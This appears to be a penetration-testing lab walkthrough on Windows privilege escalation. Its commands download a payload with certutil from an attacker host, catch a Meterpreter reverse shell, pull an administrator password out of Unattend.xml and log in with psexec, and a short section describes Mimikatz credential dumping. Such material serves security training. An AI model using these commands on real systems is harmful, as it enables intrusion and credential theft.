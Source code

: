 ```powershell
C:\Users\student> cd Desktop
C:\Users\student> certutil -urlcache -f http://10.10.9.2/payload.exe payload.exe
```

```bash
john@attack> msfconsole

msf6> use multi/handler
msf6> set lhost 10.10.9.2
msf6> set lport 1234
msf6> run
```

Execute the `payload.exe` on the target and gain meterpreter on the attacker.

```bash
meterpreter> sysinfo
```

```bash
meterpreter> getuid  # PRIV-ESC\student
meterpreter> search -f Unattend.xml
meterpreter> cd c:\\windows\panther
meterpreter> download unattend.xml
meterpreter> exit

john@attack> cat unattend.xml  # administrator:QWRtaW5AMTIz
```

The password is base64 encoded.

```bash
john@attack> echo 'QWRtaW5AMTIz' > password
john@attack> base64 -d password  # Admin@123
john@attack> psexec.py administrator@10.3.31.19

C:\Windows\system32> whoami
C:\Windows\system32> more c:\users\administrator\desktop\flag.txt
```

### Mimikatz

#### Description

* Mimikatz is a Windows post-exploitation tool written by Benjamin Deply (@gentilkiwi). It allows for the extraction of clear-text passwords, hashes and Kerberos tickets from memory.
* The SAM (Security Account Manager) databse, is a database file on Windows systems that stores hashed user passwords.
* Mimikatz can be used to extract hashes from the `lsass.exe` process memory where hashes are cached.
* We can utilize the pre-compiled `mimikatz` executable, alternatively, if we have access to a meterpreter session on a Windows target, we can utilize the inbuilt meterpreter extension Kiwi.

_Note : Mimikatz will require elevated privileges in order to run correctly._

#### Lab
